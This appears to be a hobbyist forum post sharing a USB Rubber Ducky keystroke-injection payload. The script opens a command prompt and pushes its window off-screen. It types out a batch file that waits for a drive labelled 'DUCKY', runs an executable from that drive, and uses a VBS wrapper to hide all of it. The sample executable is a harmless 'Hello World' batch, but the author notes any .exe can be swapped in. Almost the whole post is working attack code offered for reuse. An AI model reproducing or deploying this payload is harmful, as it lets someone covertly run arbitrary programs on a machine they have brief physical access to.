 The following is a payload I have been working on that waits until a drive labeled "DUCKY" is mounted. I have used some of midnightsnake's code in this payload. I have been having some problems with delays so I went a little overboard with the "DELAY 25" codes. The name of the file that is run can be changed to .exe, I am just having it run a batch for testing purposes. The line that says "STRING %myd%\myEXE.bat" is the line that executes the executable.

'''
REM Author: overwraith
REM Name: RunEXE.txt
REM Purpose: Run an executable file off of the SD card after it mounts. 
DELAY 4000
REM Using the run command for a broader OS base.
GUI R
STRING cmd /Q /D /T:7F /F:OFF /V:ON /K
DELAY 500
ENTER
DELAY 750
ALT SPACE
STRING M
DOWNARROW
REPEAT 100
ENTER
DELAY 25
REM Make batch file that waits for SD card to mount. 
REM Delete batch file if already exists
DELAY 25
STRING erase /Q DuckyWait.bat
DELAY 25
ENTER
DELAY 25
STRING copy con DuckyWait.bat
DELAY 25
ENTER
DELAY 25
REM DuckyWait.bat
DELAY 25
STRING :while1
DELAY 25
ENTER
DELAY 25
STRING for /f %%d in ('wmic volume get driveletter^, label ^| findstr "DUCKY"') do set myd=%%d
DELAY 25
ENTER
DELAY 25
STRING if Exist %myd% (
DELAY 25
ENTER
DELAY 25
STRING goto break
DELAY 25
ENTER
DELAY 25
STRING )
DELAY 25
ENTER
DELAY 25
STRING timeout /t 30
DELAY 25
ENTER
DELAY 25
STRING goto while1
DELAY 25
ENTER
DELAY 25
STRING :break
DELAY 25
ENTER
DELAY 25
REM Continue script.
DELAY 25
STRING %myd%\myEXE.bat
DELAY 25
ENTER
DELAY 25
CONTROL z
DELAY 25
ENTER
DELAY 25
REM MAKE THE VBS FILE THAT ALLOWS RUNNING INVISIBLY.
DELAY 25
REM Delete vbs file if already exists
DELAY 25
STRING erase /Q invis.vbs
DELAY 25
ENTER
DELAY 25
REM FROM: http://stackoverflow.com/questions/289498/running-batch-file-in-background-when-windows-boots-up
DELAY 25
STRING copy con invis.vbs
DELAY 25
ENTER
DELAY 25
STRING CreateObject("Wscript.Shell").Run """" & WScript.Arguments(0) & """", 0, False
DELAY 25
ENTER
DELAY 25
CONTROL Z
DELAY 25
ENTER
DELAY 25
REM RUN THE BATCH FILE
DELAY 25
STRING wscript.exe invis.vbs DuckyWait.bat
DELAY 25
ENTER
DELAY 25
STRING EXIT
ENTER
'''

The following is the batch file that is run after the "DUCKY" drive has been mounted. Everything is being run invisibly, so you will need to check for the existence of "Message.txt" which will probably be in "C:\Windows\system32".

'''
REM Message.txt
echo Hello Wolrd!!!
echo Hello World!!! > Message.txt
'''

This payload requires the REPEAT command, so until the online payload generator is online again, or the encoders start supporting the REPEAT command you will be stuck with copy and pasting the repeat command 100 times. I recommend pasting by groups of five or ten. 